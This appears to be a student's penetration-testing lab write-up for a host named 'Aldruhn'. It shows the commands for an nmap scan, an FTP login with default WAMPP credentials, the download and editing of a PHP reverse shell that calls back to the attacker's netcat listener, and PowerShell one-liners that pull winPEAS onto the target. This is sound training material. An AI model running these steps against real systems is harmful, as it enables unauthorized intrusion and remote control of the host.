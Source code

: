 # Exercise 2

## Aldruhn

Host discovery – ip is 192.168.2.12

![Text Description automatically generated](media/728d73b1b034dc488107235b872c7b9c.png)

nmap basic scan

![Text Description automatically generated](media/503f26095705fea344c084e46473f86f.png)

nmap full scan: nmap -Pn -A 192.168.2.12 \> fullscan.txt

Meanwhile, we visit website on ports 80 and 443

![Text Description automatically generated](media/3efbf684f411600073d766633f4b9427.png) ![Graphical user interface, text, application, email Description automatically generated](media/abc7d06edd627aaf7ccf163b70bc18b3.png)

At tools section on the left hand side, there are various webpages. On FileZilla FTP lies an interesting image  
![Graphical user interface, text, application Description automatically generated](media/c8995bf0048c5f85e06d4bcf87469771.png)

Default installation has username: newuser and password: wampp. Try to access ftp with this credential

![Text Description automatically generated](media/2c1015791e29b4c3b42036469f81625c.png)

It works!

Upload reverse shell. First, copy from webshells dir to our dir. Then, edit file so that ip and port directs to our machine ip netcat listen port and upload

![Text Description automatically generated](media/3a5a4bf4590b6228166e2546f37fb2f7.png)

(Our machine IP on the tun0 vpn adapter)

wget -O winrevshell.php <https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php> (saves the windows php reverse shell code into winrevshell.php)

nc -nlvp 4444

Edit winrevshell.php so that its payload will send data to our machine (10.8.0.108, port 4444)

![Text Description automatically generated](media/b29bbe24dff13129ac196036b12f59bf.png)

Upload file onto target machine via ftp using the newuser credentials

![Text Description automatically generated](media/a004a57662bb0516d568375bfb4780d8.png)

Simply open the url 192.168.2.12/winrevshell.php and we get shell access

![Graphical user interface, text, application Description automatically generated](media/a202967f05bff20ebd0f52974e6ef6d5.png)

Download winPEAS from github into machine using a one-liner

powershell.exe (New-Object System.Net.WebClient).DownloadFile(' https://github.com/carlospolop/PEASS-ng/releases/download/20221023/winPEASx64.exe ','winPEAS.exe')![Text Description automatically generated](media/e2f2cc0fd516e79491ca2f471e58fe78.png)

Seems like we cannot download straight from github. Instead, download winPEAS.exe onto our kali, start a python SimpleHTTPServer and download from there

![Text Description automatically generated](media/07b58b974cec554d5318ef3251c450d1.png)

powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.8.0.108/winpeas.exe ','winPEAS.exe')

![Text Description automatically generated](media/15bca327d340d1972af26ccaccfcf430.png)

Now run winpeas: winPEAS.exe

![](media/0188aa0a7ae6514aa774595aa2d881c5.png)

It says that we are already Administrator, so no need for privilege escalation
